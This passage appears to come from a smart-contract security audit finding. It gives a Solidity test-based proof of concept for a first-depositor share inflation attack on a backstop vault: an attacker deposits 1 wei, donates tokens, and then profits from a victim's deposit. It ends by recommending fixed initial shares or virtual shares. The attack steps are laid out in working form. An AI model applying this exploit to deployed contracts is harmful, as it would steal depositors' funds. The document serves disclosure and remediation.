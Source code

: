 Below is a proof-of-concept (PoC) demonstrating this attack:

```solidity
    function testInflationAttack() public {
        bytes[] memory _mockUpdateData = _makeMockPriceUpdateData(BACKSTOP_ASSETS_QUANTITY);
        uint256 _updateFee = pythAdapter.getUpdateFee(_mockUpdateData);
        address attacker = makeAddr("Attacker");
        address victim = makeAddr("Victim");

        setupPostion(attacker);
        backstop.deposit{value: _updateFee}(
            1 wei,
            0,
            block.timestamp + USER_DEADLINE_TOLERANCE,
            _mockUpdateData
        );
        usd.transfer(address(backstop), 100 ether);
        vm.stopPrank();

        setupPostion(victim);
        backstop.deposit{value: _updateFee}(
            200 ether,
            0,
            block.timestamp + USER_DEADLINE_TOLERANCE,
            _mockUpdateData
        );
        vm.stopPrank();

        vm.prank(attacker);
        backstop.initiateWithdraw(1 wei);

        vm.warp(INITIAL_WITHDRAWAL_DELAY_PERIOD + 1);

        uint256 balanceBefore = IERC20(backstop.asset()).balanceOf(attacker);

        vm.prank(attacker);
        backstop.finalizeWithdrawBackstopLiquidity{value: _updateFee}(
            1 wei,
            block.timestamp + USER_DEADLINE_TOLERANCE,
            _mockUpdateData
        );

        uint256 balanceAfter = IERC20(backstop.asset()).balanceOf(attacker);

        console.log(balanceAfter - balanceBefore); // 150e18
    }
```

As demonstrated, the attacker successfully gained 50e18 assets.

> Full setup: [link](https://gist.github.com/0xbtk/7d53c10f222da80ece9aa4b5b8f49fb7)

Consider minting a fixed amount of shares for the first deposit or use "virtual shares" as it is implemented in ERC4626.
